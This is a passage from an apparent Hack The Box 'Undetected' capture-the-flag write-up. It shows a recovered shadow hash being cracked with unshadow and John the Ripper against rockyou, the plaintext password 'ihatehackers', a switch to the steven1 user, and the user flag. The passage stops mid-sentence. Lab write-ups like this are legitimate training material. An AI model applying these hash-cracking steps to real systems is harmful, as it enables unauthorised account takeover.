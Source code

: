 We have two steven accounts, looking at the echo above it's adding a 1 so we know the account we're cracking is steven1. Put that line in a file:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:x:1000:1000:,,,:/home/steven:/bin/bash" > steven1.passwd
  ```

Now put the hash of the password in a file:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7:::" > steven1.shadow
```

Now use unshadow to create our file for John:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# unshadow steven1.passwd steven1.shadow > steven1.hash
```

Then set John going with rockyou:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt steven1.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (steven1)
1g 0:00:01:44 DONE (2022-02-20 22:47) 0.009611g/s 856.2p/s 856.2c/s 856.2C/s littlebrat..halo03
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## User Flag

We quickly get the password and can switch user to steven1:

```text
www-data@production:/tmp$ su steven1
Password: ihatehackers
id
uid=1000(steven) gid=1000(steven) groups=1000(steven)
```

Let's get the user flag:

```text
steven@production:/root$ cat /home/steven/user.txt 
2c2027e7412139c4cb59d97c6411ba99
```

When looking around the first thing I noticed was Steven has an email:
